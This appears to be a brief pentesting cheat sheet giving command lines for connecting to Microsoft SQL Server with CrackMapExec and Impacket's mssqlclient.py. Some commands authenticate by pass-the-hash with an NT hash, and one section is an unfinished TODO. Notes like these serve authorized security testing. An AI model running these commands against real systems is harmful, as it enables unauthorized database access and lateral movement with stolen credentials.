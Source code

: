 # Unix Shell

## 01 - CrackMapExec

`$ crackmapexec mssql <IP>/<CIDR> -u "<username>" -H "<nt_hash>" -d <domain_name>`

## 02 - Sqsh

TODO: Fill in this info

`$ pth-sqsh`

## 03 - Impacket

`$ mssqlclient.py -port 1433 -windows-auth <domain_name>/<username>:<password>@<IP>`

- Pass the Hash

`$ mssqlclient.py -port 1433 -windows-auth <domain_name>/<username>@<IP> -hashes :<nt_hash>`